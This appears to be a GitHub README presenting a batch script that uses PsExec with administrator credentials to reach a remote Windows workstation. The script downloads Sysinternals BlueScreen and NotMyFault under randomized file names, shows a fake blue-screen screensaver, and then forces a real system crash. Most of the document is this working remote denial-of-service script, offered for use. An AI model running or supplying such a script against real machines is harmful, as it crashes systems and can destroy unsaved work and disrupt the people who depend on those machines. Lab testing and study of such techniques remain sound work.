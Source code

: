 # bsod-sysinter

The following script leverages the PSExec, SysInternalsBluescreen.scr, and notmyfaultc64.exe components of Sysinternals Suite to flash a blue screen screensaver and force a BSOD against a remote Windows 10 workstation. It assumes knowledge of administrative credentials and was tested against Windows Server 2019 v1909 with the Windows Firewall in its default configuration state.

```bat
FOR /F "tokens=*" %%g IN ('powershell.exe -NoProfile -command "& {$stringAsStream = [System.IO.MemoryStream]::new(); $writer = [System.IO.StreamWriter]::new($stringAsStream); $out = (Get-Random) -join \"`n\"; $writer.write($out); $writer.Flush(); $stringAsStream.Position = 0; Get-FileHash -InputStream $stringAsStream -Algorithm SHA256 | Select-Object Hash}"') do (SET VAR=%%g)
echo %VAR%

FOR /F "tokens=*" %%g IN ('powershell.exe -NoProfile -command "& {$stringAsStream = [System.IO.MemoryStream]::new(); $writer = [System.IO.StreamWriter]::new($stringAsStream); $out = (Get-Random) -join \"`n\"; $writer.write($out); $writer.Flush(); $stringAsStream.Position = 0; Get-FileHash -InputStream $stringAsStream -Algorithm SHA256 | Select-Object Hash}"') do (SET VAR2=%%g)
echo %VAR2%

psexec.exe \\192.168.0.12 -u Administrator cmd
curl https://download.sysinternals.com/files/BlueScreen.zip --output %USERPROFILE%\%VAR%.zip
curl https://download.sysinternals.com/files/NotMyFault.zip --output %USERPROFILE%\%VAR2%.zip
tar -xf %USERPROFILE%\%VAR%.zip -C %USERPROFILE% REM extract to Administrator's user profile
tar -xf %USERPROFILE%\%VAR2%.zip -C %USERPROFILE%
exit
psexec.exe -i \\192.168.0.12 -u Administrator "%USERPROFILE%\SysInternalsBluescreen.scr" /s Rem Previous interactive Psexec session exited so that another can be spawned in the active user session
psexec.exe \\192.168.0.12 -u Administrator "%USERPROFILE%\notmyfaultc64.exe" crash 0x01
```

### Files in Targeted Directory

![alt text](https://github.com/kevinkenzhao/bsod-sysinter/blob/main/file-drop.png?raw=true)



Reference: https://docs.microsoft.com/en-us/troubleshoot/windows/win32/screen-saver-command-line

